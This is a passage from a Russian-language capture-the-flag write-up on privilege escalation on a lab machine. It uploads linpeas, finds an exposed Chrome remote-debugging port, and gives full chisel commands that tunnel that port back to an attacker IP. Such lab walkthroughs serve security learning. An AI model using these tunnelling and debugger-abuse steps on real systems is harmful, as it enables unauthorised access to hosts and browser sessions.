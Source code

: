 Закинем на машину linpeas.sh и запустим скрипт.

![](../assets/Agile/9.png)

<a name="ChromeRemoteDebugger"></a>

## Chrome-remote-debugger

Мы можем обнаружить **--remote-debugging-port=41829**.

Закинем на машину chisel и прокинем порт на нашу атакующую машину.

```
1. Запустить chisel на атакующей машине: ./chisel server --reverse -p 6789
2. Запустить chisel на атакуемой машине: ./chisel client 10.10.14.124:6789 R:2222:127.0.0.1:41829
```

В интернете мы можем найти [статью](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) в которой описано, как мы можем использовать данную уязвимость.

В Chrome перейдем по URL: **chrome://inspect/#devices**. И сконфигурируем наш адрес.

![](../assets/Agile/10.png)

![](../assets/Agile/11.png)

![](../assets/Agile/12.png)

